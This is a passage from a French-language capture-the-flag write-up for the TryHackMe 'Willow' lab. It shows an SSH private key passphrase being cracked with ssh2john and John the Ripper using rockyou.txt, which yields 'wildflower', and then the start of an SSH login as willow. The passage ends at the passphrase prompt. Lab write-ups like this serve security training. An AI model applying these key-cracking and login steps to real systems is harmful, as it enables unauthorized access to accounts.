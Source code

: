 <figure><img src=".gitbook/assets/rsa_calculator.png" alt=""><figcaption><p>RSA Calculator</p></figcaption></figure>

## \[Task 3] Prise pied sur la machine cible

### 1. Décryptage de la clé SSH

```
┌──(kali㉿kali)-[~/THM/willow]
└─$ ssh2john id_rsa > id_rsa_hash
                                                                                                                       
┌──(kali㉿kali)-[~/THM/willow]
└─$ john id_rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wildflower       (id_rsa)     
1g 0:00:00:00 DONE (2024-11-30 10:51) 7.142g/s 72228p/s 72228c/s 72228C/s chulita..simran
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Nous avons maintenant un utilisateur **willow** avec sa clé privée **id\_rsa** dont le password est **wildflower**

### 2. Prise pied sur la machine cible

```
┌──(kali㉿kali)-[~/THM/willow]
└─$ ssh -i id_rsa willow@$IP
The authenticity of host '10.10.131.6 (10.10.131.6)' can't be established.
ED25519 key fingerprint is SHA256:magOpLj2XlET5C4pPvsDHoHa4Po1iJpM2eNFkXQUZ2I.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:42: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.131.6' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 




```